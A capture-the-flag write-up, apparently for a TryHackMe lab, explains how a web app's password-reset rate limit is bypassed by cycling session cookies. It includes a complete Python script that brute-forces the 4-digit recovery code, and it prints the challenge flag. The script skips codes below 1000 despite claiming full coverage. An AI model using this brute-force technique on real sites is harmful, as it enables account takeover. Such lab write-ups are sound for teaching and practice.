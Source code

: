 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests


class BruteForce:

    s = requests.Session()

    N = 8
    MAX_CODE = 9999
    PORT = 1337
    EMAIL = 'tester@hammer.thm'

    def __init__(self, IP):
        self.IP = IP

        self.headers = {
            'Host': f'{IP}{self.PORT}',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
        }

        self.URL = f'http://{IP}:{self.PORT}'

    def retrieve_new_session(self):
        self.s = requests.Session()

        # session is updated automatically
        self.s.get(f'{self.URL}/index.php', headers=self.headers)

    def associate_email_with_new_session(self):
        data = {
            'email': self.EMAIL
        }

        self.s.post(f'{self.URL}/reset_password.php',
                    headers=self.headers, data=data)

    def start(self):
        try:
            # retrieve initial session
            self.retrieve_new_session()

            # enter email
            self.associate_email_with_new_session()

            iterations = self.MAX_CODE+1

            for i in range(1000, iterations):

                if i % self.N == 0 and i != 0:
                    print('[INFO] Retrieving new PHPSESSID')

                    # request for a new PHPSESSID
                    self.retrieve_new_session()

                    # enter email
                    self.associate_email_with_new_session()

                # zero pads to 4 digits
                code = f'{i:04d}'

                data = {
                    'recovery_code': code,
                    's': 200
                }

                print(f'[INFO] Trying code={code}')

                res = self.s.post(f'{self.URL}/reset_password.php',
                                  headers=self.headers, data=data)

                res_text = res.text
                res_status_code = res.status_code
                res_content_length = len(res.text)
                req_cookies = self.s.cookies.get_dict()

                print(f'status={res_status_code} content_length={
                    res_content_length} cookies={req_cookies}')

                # wrong code
                if 'Invalid or expired recovery code!' in res_text:
                    print("\033[91mWrong code!\033[0m")

                # valid code found
                else:
                    print("\033[92mSuccess!\033[0m")
                    print(f'code={code}')
                    exit()

        except KeyboardInterrupt:
            exit()


IP = input('[!] Enter the target IP address: ')

bruteforce = BruteForce(IP)
bruteforce.start()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
